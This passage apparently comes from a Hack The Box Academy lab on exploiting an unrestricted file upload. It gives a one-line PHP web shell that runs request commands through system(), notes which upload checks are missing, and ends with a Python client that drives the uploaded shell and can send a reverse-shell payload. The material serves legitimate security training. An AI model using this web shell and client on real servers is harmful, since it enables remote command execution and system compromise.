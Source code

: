 Let us create the below file (save it as `backdoor.php`) and try to upload it via the available functionality.

```php
<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); die; }?>

```

The above allows us to append the parameter _cmd_ to our request (to backdoor.php), which will be executed using _system()_. This is if we can determine _backdoor.php_'s location, if _backdoor.php_ will be rendered successfully and if no PHP function restrictions exist.

![image](https://academy.hackthebox.com/storage/modules/160/4.png)

- _backdoor.php_ was successfully uploaded via a POST request to `/api/upload/`. An API seems to be handling the file uploading functionality of the application.
- The content type has been automatically set to `application/x-php`, which means there is no protection in place. The content type would probably be set to `application/octet-stream` or `text/plain` if there was one.
- Uploading a file with a _.php_ extension is also allowed. If there was a limitation on the extensions, we could try extensions such as `.jpg.php`, `.PHP`, etc.
- Using something like [file\_get\_contents()](https://www.php.net/manual/en/function.file-get-contents.php) to identify php code being uploaded seems not in place either.
- We also receive the location where our file is stored, `http://<TARGET IP>:3001/uploads/backdoor.php`.

We can use the below Python script (save it as `web_shell.py`) to obtain a shell, leveraging the uploaded `backdoor.php` file.

```python
import argparse, time, requests, os # imports four modules argparse (used for system arguments), time (used for time), requests (used for HTTP/HTTPs Requests), os (used for operating system commands)
parser = argparse.ArgumentParser(description="Interactive Web Shell for PoCs") # generates a variable called parser and uses argparse to create a description
parser.add_argument("-t", "--target", help="Specify the target host E.g. http://<TARGET IP>:3001/uploads/backdoor.php", required=True) # specifies flags such as -t for a target with a help and required option being true
parser.add_argument("-p", "--payload", help="Specify the reverse shell payload E.g. a python3 reverse shell. IP and Port required in the payload") # similar to above
parser.add_argument("-o", "--option", help="Interactive Web Shell with loop usage: python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes") # similar to above
args = parser.parse_args() # defines args as a variable holding the values of the above arguments so we can do args.option for example.
if args.target == None and args.payload == None: # checks if args.target (the url of the target) and the payload is blank if so it'll show the help menu
    parser.print_help() # shows help menu
elif args.target and args.payload: # elif (if they both have values do some action)
    print(requests.get(args.target+"/?cmd="+args.payload).text) ## sends the request with a GET method with the targets URL appends the /?cmd= param and the payload and then prints out the value using .text because we're already sending it within the print() function
if args.target and args.option == "yes": # if the target option is set and args.option is set to yes (for a full interactive shell)
    os.system("clear") # clear the screen (linux)
    while True: # starts a while loop (never ending loop)
        try: # try statement
            cmd = input("$ ") # defines a cmd variable for an input() function which our user will enter
            print(requests.get(args.target+"/?cmd="+cmd).text) # same as above except with our input() function value
            time.sleep(0.3) # waits 0.3 seconds during each request
        except requests.exceptions.InvalidSchema: # error handling
            print("Invalid URL Schema: http:// or https://")
        except requests.exceptions.ConnectionError: # error handling
            print("URL is invalid")

```
